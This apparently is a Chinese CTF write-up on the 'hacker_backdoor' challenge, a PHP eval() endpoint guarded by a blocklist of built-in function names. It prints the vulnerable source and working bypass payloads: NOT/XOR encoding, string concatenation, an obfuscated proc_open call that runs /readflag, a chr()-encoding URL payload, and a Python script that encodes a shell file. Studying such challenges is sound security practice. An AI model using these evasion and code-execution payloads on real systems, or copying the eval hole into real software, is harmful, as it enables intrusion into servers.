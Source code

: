 # hacker_backdoor
## 所用知识点：
### 1.正则绕过
### 2.rce函数的替换

源码审计：
```
<?php
error_reporting(0);
if(!isset($_GET['code']) || !isset($_GET['useful'])){
    highlight_file(__file__);
}
$code = $_GET['code'];
$usrful = $_GET['useful'];

//内置函数返回false
function waf($a){
    $dangerous = get_defined_functions();
    array_push($dangerous["internal"], 'eval', 'assert');
    foreach ($dangerous["internal"] as $bad) {
        if(strpos($a,$bad) !== FALSE){
            return False;
            break;
        }
    }
    return True;
}

//文件是否存在
if(file_exists($usrful)){
    if(waf($code)){
//        $code='phpinfo();';
        @eval($code);
    }
    else{
        die("oh,不能输入这些函数哦 :) ");
    }
}

```

发现只要，使用内置函数，就返回false，无法执行代码

### 1.这里一开始想到取反，异或绕过

取反：`?code=(~%8F%97%8F%96%91%99%90)();&useful=index.php`

异或:`?code=(%8F%97%8F%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();&useful=index.php`

在本地测试成功，去到靶机却无法执行，一开始纳闷了好久...原来是因为靶机版本为5.6.4,php7之前不支持($a)();所以无法执行...

p神的文章也有提到：
https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

### 2.然后一位队友的，骚操作是采用代码拼接的方式

payload:`?code=$a='php'.'info';$a();&useful=index.php`

将需要执行的韩式，采用拼接的方式绕过，监测，一开始还真没想到...

这个时候也可以大胆猜测一下eval函数的功能：将字符串以代码的形式，添加到源代码中执行。不得不说这个函数真强大

### 3.得到phpinfo界面查看禁用函数

![image](images/34FBDCE7626146C8AC342250C2727D73hacker_backdoor1.png)

rce函数基本都被禁用了，但是发现proc_open还可以用

### 4.构造payload:

proc_open()函数，命令执行方法
```
<?php
$test = "whoami";
$array = array(
    array("pipe", "r"),   //标准输入
    array("pipe", "w"),   //标准输出内容
    array("pipe", "w")    //标准输出错误
);

$fp = proc_open($test, $array, $pipes);   //打开一个进程通道
echo stream_get_contents($pipes[1]);    //为什么是$pipes[1]，因为1是输出内容
proc_close($fp);
```

bypass处理：

```
<?php
$b="p";
$c="ipe";
$test="/readflag";
$g='c'.'h'.'r';
$h=$g(95);
$a=[[$b.$c,"r"], [$b.$c,"w"], [$b.$c,"w"] ];
$aa='p'.'r'.'o'.'c'.$h.'o'.'p'.'e'.'n';
$fp=$aa($test,$a,$p);
$d='stre'.'am'.$h.'ge'.'t'.$h.'c'.'o'.'n'.'t'.'e'.'n'.'t'.'s';
echo $d($p[1]);
?>
```

方法二：

利用chr

```
?code=?%3E%3C?php%20Echo%20Eval(cHr(0x70).cHr(0x68).cHr(0x70).cHr(0x69).cHr(0x6e).cHr(0x66).cHr(0x6f).cHr(0x28).cHr(0x29).cHr(0x3b))?%3E
```

exp:

```
str1 = ""
with open("shell.php", "r") as f:
    # 逐行读取
    code = f.read()
    # print(code)
    for i in code:
        if ord(i)== 10:
            continue
        str1 += ("cHr("+str(hex(ord(i)))+").")
print(str1)

```